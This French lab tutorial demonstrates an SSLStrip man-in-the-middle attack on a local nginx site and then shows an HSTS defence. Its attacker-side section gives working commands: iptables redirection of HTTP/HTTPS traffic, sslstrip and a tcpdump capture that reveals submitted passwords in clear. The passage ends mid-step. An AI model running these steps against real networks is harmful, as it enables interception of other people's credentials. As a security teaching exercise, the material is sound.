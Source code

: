 Sur la machine attaquante

    Installer SSLStrip :

bash

sudo apt-get install sslstrip

    Configurer iptables pour rediriger le trafic HTTP et HTTPS :

bash

# Activer l'IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Rediriger le trafic HTTP et HTTPS vers SSLStrip
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

    Lancer SSLStrip :

bash

sslstrip -l 8080

    Utiliser Wireshark ou tcpdump pour intercepter le trafic :

bash

tcpdump -i any -A -w sslstrip_demo.pcap

Sur une machine victime (navigateur web)

    Accéder au site via HTTP :

Ouvrez un navigateur web et accédez à http://localhost:8080.

    Soumettre des informations de connexion :

Entrez un nom d'utilisateur et un mot de passe, puis soumettez le formulaire. L'attaquant utilisant SSLStrip et tcpdump/Wireshark pourra voir les informations de connexion en clair.
Étape 3 : Protéger contre SSLStrip avec HSTS

    Modifier le fichier default.conf pour ajouter l'en-tête HSTS :

nginx

server {
    listen 80;
    server_name localhost;

    # Rediriger tout le trafic HTTP vers HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name localhost;

    # Chemins vers les certificats SSL
    ssl_certificate /etc/nginx/ssl/nginx.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx.key;

    root /usr/share/nginx/html;
    index index.html;

    location / {
        add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
        try_files $uri $uri/ =404;
    }
}

    Rebâtir et relancer le conteneur Docker :
